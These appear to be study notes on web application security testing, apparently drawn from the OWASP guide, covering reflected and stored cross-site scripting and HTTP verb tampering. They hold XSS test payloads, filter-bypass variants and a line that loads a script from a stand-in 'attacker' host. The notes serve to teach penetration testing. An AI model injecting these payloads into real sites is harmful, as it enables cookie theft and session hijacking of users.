## Testing for Reflected Cross Site Scripting
It is not persistent and only impacts users who open a maliciously crafted link. Unvalidated input is sent through requests back to the client. Attacker creates and tests an offending URI (social engineering). Attacker's code is usually in Javascript. Commot attacks install key loggers, steal victim cookies, steal clipboard content, change page content etc.

In some cases, the web server cannot filter some encodings of characters :
eg. `"<script>"` can be filtered, but `"%3cscript%3e"` cannot.

### Tests
1. Detect input vectors - all user defined values and their input has to be determined. Some common hidden, non obvious inputs  are :
   - HTTP parameters
   - POST data
   - hidden form field values
   - predefined radio or selection values
2. Analyze each input vector to detect potential vulnerabilities. Use scpecial crafted input data with each vector. Test data can be generated by a web application fuzzer or a list of knwon attack strings or manually (polyglots).   
   - `<script>alert(document.cookie)</script>`
   - `"><script>alert(document.cookie)</script>`
For more check __XSS Filter Evasion Cheat Sheet__
3. For each test input analyze the result and determine if it represents a vulnerability. If a vulnerability is found, tester identifies any special characters that were not properly filtered.

Examples :
1. check GET parameters - `http://...../index.php?user=<script>alert(document.cookie)</script>`
2. check GET parameters - `http://...../index.php?user=<script>window.onload=function(){alert(document.cookie)}</script>`
3. The user can use input value to fill an attribute - `<input type="text" value="INPUT_FROM_USER">` and then the tester submit `“ onfocus=”alert(document.cookie)`
4. Different syntax or encoding - Insert unexpected variations in the syntax or encoding
   - `"><script>.........</script>`
   - `%3cscript%e alert(document.cookie) %3c/script%3e`
5. Bypassing non recursive filtering - Often input sanitization is _applied only once_
   - `<scr<script>ipt> alert(document.cookie) </script>`
6. Including external script - Assume that there is a regular expression checking if "<script*" (_anything but >_) is inserted. eg `<script src="http://....../xss.js"></script>` - bypass this by using the ">" character in an attribute between _script_ and _src_
   - `http://example/?var=<SCRIPT%20a=”>”%20SRC=”http://attacker/xss.js”></SCRIPT>`
7. HTTP Parameter Pollution - Splitting the attack vector between multiple parameters that have the same name
   - regular attack - `http://example/page.php?param=<script>...</script>`
   - using HPP - `http://example/page.php?param=<script&param=>...</&param=script>`

### Tools
- OWASP CAL9000
- PHP Charset encoder
- HackVector
- XSS_Proxy
- Ratproxy
- Burp
- OWASP Zed Attack Proxy
- OWASP Xenotic XSS Expoloit Framework

## Testing for Stored Cross Site Scripting
When malicious inout is stored for late use. This malicious code will appear as of the website and run within the user's browser under the privileges of the web app. It includes at least two requests to the application and is also called second-order XSS.

Stored XSS does not need a malicious link to be exploited. A typical scenario has the following phases :
- attacker stores malicious code into the vulnerable page
- user authenticates in the platform
- user visits vulnerable page
- malicious code is executed by the user's browser

### Tests
- Identify all points where user input is stored into the backend and then displayed by the application. For example
  - user profile
  - shopping cart
  - application file manager (if file upload is allowed)
  - application settings/ preferences
  - forum/message board
  - blog (comments)
  - log (if it stores some user input into logs)
- Determine if input is stored and how it is positioned in the context of the page (html tag for javascript)
- All the out-of-band channels through which the application receives and stores user input

Examples :
`<input class=..... type="text" name="email" value="aaa@aaa.bb"/>`
The tester needs to find a way to inject code outside the input tag
`<...>malicious code<!--  /> `

eg
`aaa@aaa.bb"><script>alert(document.cookie)</script>`

If "script" is replaced by space or null then the tester should examine the app for *XSS filtering*
Stored XSS can be exploited by advanced Javascript exploitation framerwords (BeEF, XSS Proxy, BackFrame)

### File upload
Check if the web app allows file upload with html or text content. Text files, jpg and gif can contain XSS payload
#### Image file contents
mpla mpla mpla <script>alert(document.cookie)</script>

### Tools
- OWASP CAL9000
- PHP Charset Encoding (PCE)
- HackVector
- BeEF
- XSS-Proxy
- BackFrame
- XSS Assistant
- Burp Suite
- XSS Filter Evasion Cheat Sheet

## Testing for HTTP Verb Tampering
HTTP specifications includes request methods other than the standard GET and POST, Many servers may respond to these alternative methods with not anticipated results.
Valid HTTP request methods are:
- OPTIONS
- GET
- HEAD
- POST
- PUT
- DELETE
- TRACE
- CONNECT
WebDAV extensions also permit
- PROPFIND
- PROPMATCH
- MKCOL
- COPY
- MOVE
- LOCK
- UNLOCK

Standard *href* links trigget a GET request. Form data (with method='POST' trigger
POST requests). Forms without method trigger GET requests.
HTML standard **DOES NOT** support other methods. All other methods need to be called outside
the html document. Javascript and AJAX allow other methods.

### Tests
Craft custom HTTP requests - preferably use a tool
